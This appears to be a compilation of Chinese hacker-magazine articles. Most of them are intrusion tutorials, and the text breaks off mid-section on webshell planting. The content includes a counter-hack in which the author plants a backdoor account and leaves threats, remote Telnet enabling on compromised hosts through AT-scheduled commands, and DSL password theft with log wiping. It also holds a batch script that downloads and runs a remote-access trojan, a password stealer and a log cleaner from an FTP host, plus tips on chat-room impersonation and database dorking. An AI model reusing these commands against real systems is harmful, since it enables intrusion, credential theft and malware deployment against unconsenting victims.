有朋友可能会问，不可能这样就搞定了吧？当然不是，还要修改注册表呢，不过很简单，我们常用的优化大师就可以解决这个问题。打开优化大师，点击左边的那个“系统清理维护”，再选择“注册信息清理”，把里面的勾全打上，然后点“扫描”，等扫描完后把它们全部删除掉。这样不光帮你删除了木马子键，还清理了注册表里面的垃圾信息，不是一举两得了吗。

不过不要高兴，现在只是把后门给清除了，说不定入侵者还留下了其他进入我系统的渠道。我们再来查看用户，打开 CMD，输入命令 net user，发现只有 administrator 用户和 Guest 用户。你可能会想，用户应该没问题了吧？我觉得不见得，用 net user 查不出后面加“$”号的用户来，比如我建一个“yibing$”用户，用 net user 就看不见。那么，怎样才能看到它呢？这好办，在“控制面板→管理工具→计算机管理→本地用户和组→用户”里就可以看到了。还有一个方法，就是在 CMD 里输入 net localgroup administrators……晕！还真让我猜对了，给我留了一个用户，用户名就是一个 $，看来入侵者想吃我的电脑哦！

> net localgroup administrators 这个命令的意思是显示 administrators 组里的所有用户，在 WINDOWS 里，administrators 组是这一用户的最高权限，为什么说是“一般用户”呢？因为还有特殊用户，比如 MSSQL 的 SA 用户或 MYSQL 的 ROOT 用户，它们用的就不是 administrators 权限了。有人一定会问，那它们是什么权限呢？它们是 SYSTEM 权限，比 administrators 还要高的权限，是 Windows 里最高的了。我们把这个用户删掉，可以到“控制面板→管理工具→计算机管理→本地用户和组→用户”里删，也可以在 CMD 里输入 `net user $ /del` 把它删除。

下面，我们再来看看 Guest 用户有没有被克隆，查看克隆用 CCA 这个小程序，在 CMD 里输入：`cca \\127.0.0.1 guest 123456`，123456 是 Guest 的密码，查看了一下，没有发现被克隆。呵呵，看来还没有太大的问题。

## 加固系统安全

现在，我们就该加固系统了，先给爱机打好补丁（这个不用我教你吧？），再把端口关掉，在这里我们就关 135、139，还有一个 445，个人系统一般根本不需要开什么端口。

先关139，这个简单，鼠标右键点击“网上邻居”→属性。鼠标右键点击本地连接→常规→双击 Internet 协议（TCP/IP）→常规里的高级→WINS→禁用 TCP/IP 上的 NetBIOS，然后确定，重启计算机，139 端口就不见了。关闭 445 需要在注册表里，开始→运行里输入 Regedit，在“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters”中追加名为 `SMBDeviceEnabled` 的 DWORD 值，并将其设置为0，然后重新启动计算机。OK！

下面就是135了，说实话135端口是 Windows 里最重要的一个端口，它和好多的服务都有依存关系，Windows 有史以来最大的漏洞也是从它而起，除了用防火墙过滤、系统自带的端口筛选和安全策略以外，依冰这里还有一个方法可以把它关掉，那就是修改 `rpcss.dll`！听过吗？嘿嘿。

`rpcss.dll` 文件在 `c:\windows\system32` 下（WinXP、Win2003），Win2k 或 WinNT 是在 `c:\winnt\system32` 下，我们先把 `rpcss.dll` 文件复制出来，要复制两个哦！一个是做备份，一个是要修改。我在这里用 UltraEdit 修改，打开 UltraEdit 后，点击搜索菜单→替换，然后在“查找内容(N)”里填上 `31003330035`，替换为 `3000300030`，然后点击“替换(R)”。重新启动计算机，点 F8 进入安全模式，用 PK 把 `svchost.exe` 进程给关掉，然后把你刚刚修改过的那个 `rpcss.dll` 复制替换到 `c:\windows\system32` 下，重启计算机看看你的 135 端口还开着吗？（此方法用于 Win2k，对于 WinXP 或 Win2003 只是做了手工修补 RPC 漏洞的办法）

如果 XP、2003 想关掉 135 端口，可以使用 SC 命令来完成，在 CMD 里输入：`sc config rpcss start= disabled` 回车，出现“成功”两个字，就表示135关掉了，然后重新启动计算机。你会发现桌面进得很慢，有好多文件还打不开……这就是弊端咯！所以依冰不建议关 135 端口。如果你真的试过了，现在没办法恢复，依冰教你一个办法：打开 CMD 在里面输入 `sc config rpcss start= auto`，然后重新启动计算机，这样就一切恢复正常了。不过，如果真要想把它关掉，也有办法，就是用安全策略和系统自带的端口筛选把它关掉，对了，还可以用防火墙关。其实用这些办法关，都是没有真正地把 135 端口关掉，只是阻止了它发的或是别的电脑给它发过来的信息。

## 入侵反击战

下面的任务就是该抓这个入侵者了，怎么抓他呢？想了想，今天他一定还会用那个后门登录我的系统，不过那个后门已经让我给删了，他想连也连不上。突然，我灵机一动，想到了一个好办法，既然后门不在了，那么我就给他做一个假后门吧！现在，请出我们的元老级黑软——NC，别看它上了年纪，但可真是宝刀不老啊。打开 CMD，在里面输入 `nc -vv -l -p 3152`。在这里解释一下：意思是监听本地的 3152 端口，等着入侵者来连 3152，这样是在欺骗入侵者，入侵者会认为 3152 是他留下后门的端口，只要他一连，就上当了。

有人可能会问，这有什么用？当然有用了，它可以抓到入侵者的 IP！过了好长时间，入侵者终于开始连了，哈哈，我们还意外地得知他设置的后门密码为 771634852，IP 为 XXX.XXX.XXX.XXX（这就不能说了，给他留点面子），好了，现在我要开始玩反击战了！

先拿出亲爱的 superscan 4 抚摸一下他的爱机吧。呵呵。打开 superscan 输入 IP，然后开始扫，不一会儿结果就出来了，我一看，#@!@$*#@!#%，怎么看样子是台服务器啊？还把 ICMP 给过滤了，开始我还以为是个个人电脑呢，没想到这家伙是一个网管，要不这台服务器就是他的肉鸡？不管他那么多，我还是要继续入侵他！

华夏黑盟，怪狗的站，大家都不会陌生吧。呵呵。一个菜鸟教材多多的好站。可惜我的站空间又小，把软件都下载下来是不可能的……于是想去怪狗站软件下载的地方来个链接，嘿嘿，说白了就是盗链！

先点点怪狗站的黑软下载，在“下载地址－本地下载”点右键看看属性，呵呵，看不到实际地址。于是我点右键里面的“目标另存为(A)……”，然后把另存为的页面 Soft_Down.htm 改为 Soft_Down.txt；打开 LOOK LOOK，晕……txt 文件里有下面一段话：

> html  
> <br><i>[已省略涉及绕过下载保护与获取真实下载地址的敏感内容]</i>

55555，怪狗的站做了防盗链处理。不过这有关系，我可是抱着不盗成功不死心的态度哦！

再来准备个软件：**[已省略具体抓包/嗅探工具名称与下载地址等敏感内容]**。

下载、安装，在主界面上点击运行，进入要下载的软件页面，点击下载，会弹出下载软件框；随后到抓包工具里查看抓到的信息。文中继续描述了从抓取结果中定位下载地址与路径的过程，但此处省略敏感操作细节。


# 盗链华夏黑客联盟（77169.com）

◎ 文／混世魔王

右栏正文继续给出通过抓包结果定位真实下载 URL 的过程，并包含具体 IP、路径与可直接访问的下载地址。这些内容具有明显的网络攻击与滥用价值，故在此不予转录。

有了软件的下载地址，你知道怎么做了吧？加入到自己站上的下载专区里去，免费的空间哦，嘿嘿。

于是又用扫描工具扫了一下，没有发现什么有价值的东西。就这么放弃？不行，咱不能受他的冤枉气。于是又分析了一下，如果从若干服务端口下手……文中随后继续讨论针对服务器与数据库服务的尝试过程。

接下来文章描述了针对数据库服务进行探测、连接与远程命令尝试的过程，包含工具菜单、账号口令及操作步骤。这些内容属于可直接用于未授权入侵的敏感细节，故省略。

哈哈，这次他的服务器生杀大权就交给我了，


图2

他还没有去掉相关高危功能，正好不用我废工夫。现在我也给他留一个后门，建个用户，让他也尝尝被入侵的滋味，然后在他桌面上建了个“我入侵了你的系统.txt”的文件，里面写了些恐吓他的话，然后就退出走人了，呵呵。

这次被入侵再反入侵一切都还很顺利，基本没有受阻，运气也很好，希望大家看完我这篇文章后能对自己有些帮助。

（pk 可以在光盘中“杂志相关”栏目中找到）

# 详解屏蔽 Telnet 服务的 NTLM 认证

◎ 文／可怜

在入侵中，得到管理员账号之后，很多事情显得轻而易举。可有时候幸运之神并不是总落在你身上的，这不，刚刚溢出成功内网的机器，本想用 IPC$ 连接上去，竟发现“网络路径不存在”，看来有必要先运行一次 `net share /y` 启动共享服务，显示成功后，终于连接搞定了！不过在接下来的开启 Telnet 服务中便遇到了 NTLM 认证的问题，搬出自己一贯使用的工具、不依赖于 IPC 共享的 VBS 脚本，连忙传上去。运行之后却显示不成功，纳闷了，只能驱猫上线，继续我那无期的学习之路了，半晌终于找到一篇关于打开 Telnet 的教学，在再三测试后终于成功打开了那部机器的 Telnet，经验不敢独享，写出来与大家共赏。

我们知道 Win2000 中自带 Tlnadmn 命令，它可以更改 Telnet 的端口、运行参数、最大登录人数等等，可惜讨厌的 NTLM 认证会让我们远程无法登录，现在我们需要的是摆脱 NTLM 认证的问题。

## 方法 1：手动修改 Tlnadmn

我们按下面的命令直接在本地 CMD 下操作：

```text
C:\WINNT\system32>tlntadmn.exe
Microsoft (R) Windows 2000 (TM)（内部版本号：2195）
Telnet Server Admin (Build 5.00.99201.1)

请在下列选项中选择一个：
0) 退出这个应用程序
1) 列出当前用户
2) 结束一个用户的会话
3) 显示／更改注册表设置
4) 开始服务
5) 停止服务

请输入一个选项的号码 (0 -- 5) 以选择该选项：
```

选 3 回车进入设置，进入如下子界面：

```text
请在下列选项中选择一个：
0) 退出这个菜单
1) AllowTrustedDomain
2) AltKeyMapping
3) DefaultDomain
4) DefaultShell
5) LoginScript
6) MaxFailedLogins
7) NTLM
8) TelnetPort

请输入一个选项的号码 (0 -- 8) 以选择该选项：
```

我们选 7，回车进入设置：NTLM 的当前值 = 2，我们给它设置成 1 就可以了。设置完成后重启 Telnet 服务：`net stop Telnet`、`net start Telnet`，再在本地连接 23 端口，输入管理员账号密码就 OK 了！手动修改 NTLM 的方法就这么简单，在平时入侵的时候，如果有 3389 等远程连接方式，推荐大家使用这样的方法去修改。

## 方法 2：利用脚本修改 Tlnadmn

有时我们出于特殊原因不要求立即停止 Telnet 服务或是变更 NTLM 模式，这时我们必须借助 AT 命令：`at \\IP time 程序名`。但实际上操作的话我们会发现，类似 tlntadmn 这样的程序是控制台的一个交互式工具，其参数设置并不能很好地被 AT 命令所调用。我们应如何处理呢？换句话说，在没有 3389 等远程登录的模式下，如何给对方开启 Telnet 服务呢？我们可以将命令写入一个 txt 文件，再加以调用。写入的命令请按照下面的顺序：

```text
停止服务(5) -> 更改设置(3) -> NTLM(7) -> 确认更改(y) -> 修改 NTLM 当前值(0) -> 再次确认(y) -> 退出菜单(0) -> 启动服务(4) -> 退出程序(0)
```

在方法 1 中，我们知道在每个选择后面都要回车确认运行，所以我们要模拟操作写入的数据应是：

```text
5(回车)3(回车)7(回车)y(回车)0(回车)y(回车)0(回车)4(回车)0(回车)
```

现在我们有两种思路按下去做：一是直接在被入侵机器的 CMD 上制作 txt 文件以供调用；二是在本地生成 txt 再上传到被入侵机器以供调用。下面我们看它们分别是如何实现的：

- 1. 直接在被入侵机器的 CMD 上制作 txt 文件以供调用，依次在 CMD 下如此运行命令：

```bat
at \\ip time "echo 5 > c:\Telnet.txt"
at \\ip time "echo 3 >> c:\Telnet.txt"
at \\ip time "echo 7 >> c:\Telnet.txt"
at \\ip time "echo y >> c:\Telnet.txt"
at \\ip time "echo 0 >> c:\Telnet.txt"
at \\ip time "echo y >> c:\Telnet.txt"
at \\ip time "echo 0 >> c:\Telnet.txt"
at \\ip time "echo 4 >> c:\Telnet.txt"
at \\ip time "echo 0 >> c:\Telnet.txt"
at \\ip time "c:\\winnt\\system32\\tlntadmn.exe < c:\\Telnet.txt"
at \\ip time "del c:\\Telnet.txt /f"
```

只须按上面的命令行一行行打入运行就可以了。效果与方法 1 是等同的。

- 2. 在本地生成 txt 再上传到被入侵机器以供调用。在本地机器上做一个 `Telnet.txt` 文件，内容如下：

```text
5
3
7
y
0
y
0
4
0
```

注意每一行都要加回车，然后将这个文件上传到被入侵机器的 C: 盘下：

```text
copy Telnet.txt \\ip\c$
```

再设置在某时间内启动并删除已上传文件：

```text
at \\ip time "c:\\winnt\\system32\\tlntadmn.exe < c:\\Telnet.txt"
at \\ip time "del c:\\Telnet.txt /f"
```

很简单的 DOS 管道重定向原理。这样就完成 tlntadmn 的交互过程。效果与方法 1 是等同的，简单吧？

Tlntadmn 在处理 Telnet 上显得异常强大，在入侵过程中如果能熟练应用它，那么开放 Telnet 服务将显得轻而易举；当然，隐藏的 Telnet 服务也就是肉鸡上最好的后门了！你学会了吗？

## DSL账号暴破危机

文／图 白修罗

> **TIPS 什么是 DSL？**
>
> Digital Subscriber Line（DSL）是指一系列的超级 Modem。它们的传输速率要远远高于普通的模拟 Modem，甚至能够提供比普通模拟 Modem 快 300 倍的兆级传输速率。由于 DSL 使用普通的电话线（不像其他的高速传输技术，如 Cable Modem），所以 DSL 技术被认为是解决“最后一英里”问题的最佳选择。其最大的优势在于利用现有的电话网络架构，为用户提供更高的传输速度。

很多 DSL 虚拟拨号上网的朋友会遇到一些郁闷的事情：某一天突然发现自己拨不上去了，不管怎么试，程序总是提示用户名／密码错。咨询过电信相关工作人员后你会发现这并不是机房服务器故障。在排除了大多数可能性后，你终于断定 DSL 密码给人改了，或者是有人正在使用你的 DSL 账号上网！虽说这样给你造成的直接损失或许不大，然而你此后不一定可以安稳地上网了，或者在某一天你又得为 DSL 账号的事情头痛。好了，下面我们来看看到底如何保护自己的 DSL 账号。

首先需要了解一些基本常识，这儿所指的 DSL，一般是指电信或其他宽频网服务商提供的有账号与密码的宽带 DSL，每个地区的 DSL 都会被具体地分配出一个或二个 B 段，拨号用户公网 IP 在此 B 段内波动，固定 IP 用户也被限制在此 B 段内，IP 不变更。某些路由器默认密码非常简单，易被猜到并极有可能被利用；某些拨号软件比如 EnterNet 的密码是加密后保存在软件目录下面的；Windows 系统将密码加密后保存在特定文件里。

模拟攻击入侵个人 PC 得到 DSL 账号并修改其密码，或使用（本文所提及的机器是一朋友的机器，并在朋友同意下进行以下操作，测试目的是让 DSL 虚拟拨号用户及网上广大 GG/MM 明白现阶段个人安全意识与安全防护能力的重要性，呵呵。）好，我们先准备好一份或多份必须的扫描软件，如 X-Scan、Superscan、Autoattack、流光等（因为本文是测试为目的，所以只挑了最常见的 NT 弱口令及端口扫描，至于现在最常见的 RPC 溢出、FTP 溢出等漏洞，因篇幅不列入测试范围。请有条件的朋友自行测试）。

在这儿有的朋友会说：“好像没有什么好看的吧？是不是扫路由再看星号？网上有资料的。”嗯嗯，本来也想写关于路由器方面的，后来想想没多大意思，所以下面一笔带过就可以了。Let's Go!

### 1. 入侵并获得加密账户信息

朋友机器现在的公网 IP 为 61.144.X.*，明眼人一看就知是电信 DSL 虚拟拨号的或非拨号的。和朋友打声招呼后就开始测试了，运行 WinAutoattack，扫描参数里输入 IP 段 `61.144.X.1-61.144.X.255`，扫描模块里只选 NT 弱口令，不一会结果出来了，弱口令账号为 `Administrator`，密码为空，并且软件帮你打开了 4899，这也意味着软件已自动上传了 Radmin 的客户端并成功执行，为方便起见，我直接用 Radmin 进行连接，因为我们现在只需要下载到拨号工具的设置文件，所以只需要选择“文件传送”就可以了。如图 1 所示。


连接上去后直奔 `C:\program files`，在这儿有我们熟悉的一个目录名 Efficient Networks（有时是 NTS），这就是常见的拨号软件了，之后我们一层层打开 `c:\program files\efficient networks\enternet 300\app` 查找到 `EnterNet.ini`，哈哈，就是它！将它拉动放在我们本地的 C 盘下面——EnterNet 的账号和加密后的密码就放在这个文件里！

```ini
Protocol=PPPoE
ConnectionProtocol=5
Context=
Session=kd
UserName=gzDSL856****@163.gd
Network=
Password="PA  ^"
Tap=Intel(R) PRO/100 VE Network Connection
Parameters=1
```

看到了吗？上面的“gzDSL856****@163.gd”就是 DSL 账号，而“PA ^”就是密码！呵呵，当我们得到这个文件也就意味着我们可能猜破解密码，到这儿我们已经成功了一半了。

即使是模拟入侵，也应注意“安全”，于是我上传了 LOG 清除的工具，在第一时间把自己所有的操作清除了，仿佛事件没有发生过一样，而朋友的防火墙却一点动静也没有。我想很多防火墙并不如我们所想的那样强大吧。实际上在基于系统漏洞入侵的过程中，不论是杀毒软件或是防火墙，能有效阻止的并不是很多。相信很多朋友在入侵的肉鸡上都会发现“XX 防火墙”这样的软件吧？

### 2. 获得账户明文信息

下面我们来看一下如何把密码还原。我们知道有很多软件是可以通过文件恢复覆盖回去的，最典型的就是一些配置文件（*.ini），现在我们在本地安装一个 Enternet 软件，再把复制过来的 INI 文件覆盖到 `efficient networks\enternet 300\app` 目录，运行拨号程序，如图 2 所示。


这里出现的就是朋友机器的账号与密码了，这时调出“身负重任”的显示星号：软件“密码捕快 v1.0”，选高级模式，选中“全部密码变为无星号的”，呵，现在得到了朋友的宽带 DSL 账号口令了，如图 3 所示，将这个口令发给朋友吧，哈哈。


读者朋友们看了觉得很简单吧？实际上不止 Enternet 有这样的“漏洞”，就是连我们使用的 FlashFXP 上传工具、各类下载工具，或是 WinRAR 压缩文件等都有同样的情况。要是 PC 给恶意目的的用户入侵，那后果不堪设想。另外有部分朋友扫描 23 与 80 端口，只要同时开放，在 IE 地址栏输入 IP 地址，就可以直接连上路由的 IE 管理窗口，通过猜解路由默认口令最终进入路由设置界面，再得到 DSL 账号口令，同样也是可行的。另外至发稿时止，我们可爱的电信已封锁了很多地区的 139 端口了，也就意味着扫描弱口令是行不通的，这儿也不再讲述其他入侵方式了，相信对广大黑客爱好者来说并不是什么难事吧。

> **郑重声明：** 本文旨在加强大家的安全意识，请不要使用本文提到的方法用于非法用途。本文不对所有非法行为负责，并强调入侵他人计算机、窃取账号需负民事或刑事责任！

# 灵活的批量上传

◎ 文／iofox

在入侵过程中，我们总会上传各种不同的程序，比如扫描工具、后门程序、擦除日志工具等，要是我们在交互界面下操作的话是比较轻松的，但如果我们只能通过 TFTP 上传，一次只能一个程序上传，类似的操作少量倒无所谓，问题是常常在入侵过程中我们总会遇到上传程序较大、较多的情况下，那你就只能边擦汗边等待了？NO！有办法的。

## 批处理与 FTP 相结合实现批量上传

我们如何突破限制呢？聪明的朋友一定想到了批处理吧？对了，我们可以建立一个 BAT 文件，从我们已经架设好的 FTP 上下载指定的程序。下面我就说说如何设置批处理文件：

```text
@echo open 域名地址 >ftp.txt
@echo FTP账号 >>ftp.txt
@echo FTP密码 >>ftp.txt
@echo binary >>ftp.txt
@echo get logkiller.exe >>ftp.txt  // 下载清除日志的程序
@echo get hugezi.exe >>ftp.txt     // 下载灰鸽子程序
@echo get getpass.exe >>ftp.txt    // 下载偷窥密码的程序
@echo bye >>ftp.txt
// 以上命令建立 FTP 账号并下载指定文件
@ftp -s:ftp.txt
@hugezi.exe
@getpass.exe
@logkiller.exe
@del hugezi.exe
@del logkiller.exe
@del ftp.txt
@del attack.bat   // 删除所有建立文件
```

把上面的代码保存为 `attack.bat`，再把它上传到已入侵的机器，运行后你会发现你所指定的程序下载并运行了！这样即使我们得到的只是 CMD 命令行，也可以一次批量下载自己需要的程序了。如果你不想删除程序，把 `@del` 部分去掉就可以了，文件数量自己要控制好。

另外提醒一下大家，BAT 文件里这个下载文件的 FTP 最好不是自己的，要不然留下 IP 或是域名，某天公安局叔叔打来电话的时候你可不要怪我没有提醒你哟！

## RAR 压缩批量上传

还有什么办法呢？那就是利用 WINRAR 的解压缩命令了。随着时间的推移，日月变迁，大家习惯了 WINRAR 的 GUI 界面了，嘿嘿，这儿指的可是 WINRAR 的命令行解压缩命令哦。不知大家统计过没有，在入侵的机器中，装 WINRAR 的占用了百分之几？我认为个人机子的确应该达到 75% 以上！自己统计的，没有权威！要是网站服务器（包括虚拟机！）的就不清楚了。下面我们看一下如何利用这个不被注意的好东西吧。

先查一下对方的机器是不是安装了 WINRAR，一般看看 `X:\Program Files\WinRAR` 目录（X 为系统盘），我们可爱的 `UNRAR.exe` 就在那个目录里！再来：

```text
copy x:\Program Files\WinRAR\unrar.exe x:\winnt\temp\
```

这样就把 `unrar.exe` 复制到系统的临时目录下了，要是没有 RAR 的话，你可要自己上传这个程序哦（你自己没有？天！恐龙级的古老人物！）。在本地把自己要上传的文件打包，SIZE 尽量控制不要太大（我喜欢在 400K 大小），压缩率当然选最好，通过 CMD 窗口，用 TFTP 命令上传到入侵机器的 TEMP 目录，因为临时目录比较隐藏，用以下命令：

```text
TFTP -i ip get ok.rar
unrar e ok.rar      // e 参数表示解压到当前目录下
dir
```

呵呵，怎么样？是不是有点成就感？我们一次就把几次的工作做完了，赚到的时间可以用来做其他事情咯！

对了，大家要是不懂 UNRAR 的命令行用法，请在本地 CMD 下输入 `unrar.exe /help >help.txt` 再打开 `help.txt` 文件，就一目了然了。如果大家有更好的方法，写出来一起交流吧，共同进步才是我们共同的目的，也希望朋友们能用上这两个方法！

# 用区位输入法搞乱聊天室

◎ 文／图 独行浪子

大家好，这些天小弟学习不紧，所以来凑个小热闹，和大家探讨一下网虫如何给聊天室里的朋友们开开玩笑。大家知道，计算机中的输入法非常多，在聊天室和论坛我们可以用输入法来做一些小事情，比如戏弄别人、骗骗别人什么的，什么输入法？区位啊！

我在本市的一家网校的聊天室做了一个小的“测试”，结果比较顺利，和大家来交流一下咯，大家请看该聊天室的登录页面，如图 1 所示。


图 1

界面很漂亮的，一看就知道是“稻香工作室”出的。大家请留意用户名填写处：只要在用户名处用区位输入法输入字符“aaaa”、“aaab”或“aaac”即可形成一个特殊的空格，它占用一个汉字的大小！太好了，这样，我们就可以使用这个空白名称登录聊天室了！看吧，酷吧！如图 2 所示。


图 2

当然还可以戏弄别人啦！我就是用“飘摇”的名字来聊天的。方法很简单的，只要在登录页面的用户名处填写想要戏弄人的昵称，然后添加区位输入法的特殊空格即可（密码随意）。请看，我用“飘摇”的用户名来和她打招呼了，怎么样，很实用吧！如图 3 所示。


图 3

这样可以戏弄别人了——当然，我可没叫大家去假装管理员哦！那样影响是很不好的！再经我这几天的试验发现，这种区位输入法的渗透小功能，适用于 ASP 的论坛以及聊天室，运气好也许会渗透出管理员的权限来的！不过没有太多的时间去研究，要是哪个朋友有兴趣，请和我一起讨论哦！我的 QQ 是：240410260，谢谢。

## 操作技巧

- 将申请页 `http://m.qq.com/qq/reg_freeqq.shtml` 设为主页，或用 Ctrl+C 复制好地址，再在新打开的窗口的地址栏 Ctrl+V，速度很快！
- 只填基本资料就可以了，可以节省时间。
- 将资源管理器打到 Cookie 文件夹下，这样删起来就很方便！
- 在“Internet 选项”中将 Cookie 设为禁用，可以省去一次又一次 Delete 的麻烦；可以让申请速度更快。

# 黑／白仔的故事


在这个圈子里颇有名气，大家都叫他黑仔。这位黑仔可不是哦？哈哈，他是一个帅哥，而且自由得很呢。因为在这个圈子里他的影响很大，所以大家叫他黑仔。对了，这个圈子叫网络 HACKER。黑仔就是在这个 0 和 1 组成的世界里寻找着自己梦想中的国度。

白仔似乎比黑仔还神秘。第一次遇到白仔是在一所大学的系统里。黑仔花了几分钟进入了主机，找到了几个后门，很轻易地获得了管理员的权限。那时黑仔还只是大二的学生，他只是把网络作为消遣的手段，在系统里闲逛，体验着偷偷摸摸的快感。他没有对系统做任何修改，他严格地遵守黑客第一准则：不对入侵的系统做任何破坏，除非万不得已。逛着逛着，黑仔突然发现了一个志同道合的人，也就是白仔。很明显，他还是一个刚入门的菜鸟。他可能是这个系统的一个普通用户，这让他有很多便利去验证刚学到的知识。他在密码文件里翻看，试图找到没有被 shadow 的密码。黑仔注视着他的动作，考虑要不要和他打招呼。毕竟，能找到一个可以讨论问题的人不容易。而现实中的黑仔从来不对任何人谈论自己是黑客，和所破解的系统。

第二次黑仔知道了他叫白仔。时常黑仔和白仔谈论一些技术性的话题，白仔开始没有黑仔厉害，但慢慢地，黑仔知道，白仔比初次见到他时已经成熟了许多。当然，白仔也常常客气地谢谢黑仔，说要不是黑仔，他现在进步也没有这么快。毕业后黑仔就来到了现在的这家大公司。黑仔走进办公室，和往常一样，同事们都是坐在属于自己的小格子里，面对着计算机紧张地忙碌自己的事情。黑仔坐下来，习惯地和 QQ 里的同行打下招呼，白仔等等。之所以选择这家大型的公司，是因为大公司可以轻松地打发自己业余时间，黑仔是这样认为的，吃饭睡觉上网是唯一的内容。不过现在这些内容从黑仔自己编的一个小软件后发生了很大的变化，这个软件用来记录他所在网络的异常情况。当然公司是不允许的。公司的局域网一般都对员工的上网做了严格的限制，很多站点都不能去，尤其是免费邮箱。从保护商业机密的角度，无可厚非。虽然这对黑仔来说不能算是障碍，但他并没有改变它。

从来都不想在公司引人注意，公司也不止他一个高手；网络管理员小小就是其中的一个。黑仔很欣赏她，作为一个女孩子来说，水平值得黑仔看好已经很不容易了。据说小小在去年刚毕业来公司的时候，公司打发她去做文员，最后完全是凭借自己的努力成为网管的。

黑仔打开自己监视软件的窗口，立刻注意到一个不寻常的情况。日志报告显示：昨天服务器有人作为超级用户登录了，而据黑仔所知超级用户只有两个，就是经理和小小。小小昨天已经出差了，经理几乎从来不登录服务器。他每天的会太多了。会是谁呢？查一下吧，黑仔有点犹豫，这不是他的分内事。停了片刻，他还是想看一下。结果让黑仔吸了一口冷气。公司向国家申报课题时的机密资料，被人下载过，而要命的是，下载的地址是公司外部。黑仔知道公司的内部服务器只对内部局域网开放端口 21 和 23，也就是 TELNET 和 FTP 功能。有专门的对外的服务器，内外服务器之间有专门的网关相连——这个人是先输入公司的网址，进入外部服务器，然后再进入内部局域网的。公司的防火墙做得非常出色，如果黑仔不是公司员工，要突破估计也要几个小时。现在不用去查 IP 了，这绝对是个重量级人物，不知道中转过多少次才登录，查也没用。黑仔有点兴奋，因为这在圈内绝对是大事件。

黑仔不知道该不该对公司说。很显然，黑仔现在还没有证据说服公司，就算能说服公司，恐怕他在这家公司也干不长久了。公司对商业机密的事情很敏感。每一个员工进公司的第一天，被灌输的就是保密。计算机的光驱和软驱都卸了，不准看的不看，不该问的不问，不该说的不说，不该传的不传。就算是一个部门，不同项目组间也严禁传阅资料。这时他想到了白仔。两个人做事总是快点；更何况现在白仔已经不是以前的白仔了。黑仔给白仔 QQ 上留言说了一下自己的事，邀白仔一起把那个下载的人找出来，因为就现在看来，他们合作是最好的办法，也是最快的办法。

黑仔下班急忙回到宿舍，看看 QQ，白仔还没有到，就先啃了两口面包，查了一下日志，再看看监控软件有没有情况。边吃边沉思，这时机器突然发出尖锐的鸟叫。有人进入公司内部服务器了。黑仔对着屏幕残酷地笑了，他走不了了。黑仔已经在服务器上加了下载限制，文件的速度只能是几百字节，他有很多的时间追踪神秘人的藏身之处。黑仔用嗅探器开始搜索，看得出来，对手完全没有防备，在等待文件下载的过程中，他悠闲地在服务器中漫步，熟悉地打开一个又一个文件。黑仔越发坚信，他或者曾经是一个内部人员。快成功了，还有十秒钟，黑仔得意地笑了笑，轻松地靠着椅子，吹了一声口哨。但他没想到事情变化得这么快，那一瞬间根本没有反应，屏幕蓝光一闪，音箱里发出一声长长的叹息，之后便完全沉静了，停电了！这种事竟然会在公司出现？这简直不可能，黑仔呆若木鸡。

第二天，黑仔咒骂着这个公司，咒骂着该死的电，偏偏在最重要的关头出现了停电的事。当黑仔一边走一边骂的时候，走进工作了三年的办公室，立刻感受到了不寻常的气氛。原来一脸怒容的小小已经在那里等他了……

> “你昨天进入服务器了？你是黑仔，我也是昨天晚上才知道你是黑仔的。公司里停电是我安排的。”

黑仔吃惊地看着小小，这无疑是对他的打击，小小竟然知道这些事。回想昨天的突然事件让他根本没有机会消除他在服务器里的登录记录！！小小自然会彻底清查服务器里的程序，黑仔的后门监控软件不可避免地显形了。原来小小很早就发现了黑仔装的那个监控软件，但不知道是谁装的，认为这事关系重大，决定设一个局，把这个人引出来。于是有了先前发生的事……

> “那你为什么告诉我？这不正好，人赃并获。还等啥，通知公安局啊，要不要现在就把我绑起来？”黑仔有气无力地说。“我为什么要通知公安局？”小小吃惊地睁大眼睛。“一开始我以为有商业间谍呢，只不过是为了公司的利益而已，我还应该感谢你呢，让我省了好多事。而且你以前总是帮我啊？你不记得了？”黑仔傻乎乎地听着。“我就是白仔。”小小一眨一眨地看着黑仔吃惊的表情，然后哈哈大笑……

这个可笑可怜可悲的黑仔啊，觉得全世界就他最笨。在为公司工作的三年里，黑仔第一次觉得，公司除了工资和奖金外，还有值得他关注的东西——白仔。第二天，同事就看到他们成双成对地进进出出，对于他们俩的事，同事们看来也是不可思议的。然后只有黑仔和白仔自己心里知道，他们正在做什么事，那就是谈技术改成了谈恋爱了。

# 超级笑口秀

[摘自《黑客防线》论坛：www.hacker.com.cn/newbbs]

- 一小学生，看到被老师点到念作文的同学，特别羡慕，总盼着老师也能让自己念一回，机会终于来了：“某某，把你的作文给大家念一下！”小学生“腾”地一下站起来：“《我的老师》。老师，我多像你的妈妈……”

- 我家里在冬天经常把大葱栽在盆子里，以保持它的鲜嫩。妹妹过年回家看到了，欣喜地对我妈说：“妈，这粗真葱……”

- 有个我叫“大姑”的邻居，每天骑自行车上班，一早在门洞碰到她，我微笑着客气了一句：“上姑啊，大班……”呸！我当时恨不得把自己的舌头咬下来。

- 某女同学一天顾影自怜，忽转头对后面的人说：“我的胸毛美不美？”吓人一跳，又说：“噢，我是想问我的眉毛凶不凶。”

- 全体起立！奏国旗，升国歌……

- 我带儿子去喂鸭子，他一边给鸭子撒面包一边追鸭子到处跑，我拿着他的苹果在后面追他（他不爱吃，我只能在他精神分散的时候伺机塞给他几口）。他不停地跑，我不停地喊他：“过来吃一口苹果再追鸭子！”总是重复这一句，我终于大声喊出了口：“过来吃一口鸭子……”然后很聪明地刹住了闸。

- 有一个从俄罗斯作家的小说摘来的课文里有一句是：这里的房子都是老爷（指有钱人）们的。结果我的一个男同学朗读道：这里的房子都是老爷们儿的。话音一落，我们语文老师就疑惑地问他：那老妇们儿都住哪儿？

- 有一次主持一台晚会时，我从容地上去深情地说：“朋友们，您见过黄河吗？您知道它是我们的母亲河吗……”在一番深情地介绍黄河后，他说道：“下面请听《长江之歌》。”


## 妙用 GOOGLE 找数据库

很多朋友看别人很轻易就通过下载网站的数据库而入侵服务器，很是羡慕，其实很简单的，你也可以成为这样的“高手”！

方法很简单，直接在 Google 中输入 `*.mdb` 查询，将会出现很多的数据库（`*.mdb`），是不是很吃惊？看来搜索引擎也要做好安全工作！大家可不要乱来哟，上面也有政府的网站的数据库呢。

# 在不知道对方网站物理路径时植入 WebShell

在注入时，自己定义一个虚拟目录，让它指向指定的目录，这样就可以不必得到对方网站物理路径，也可以写入文件进行 Web 访问了。首先执行 SQL 语句。

```sql
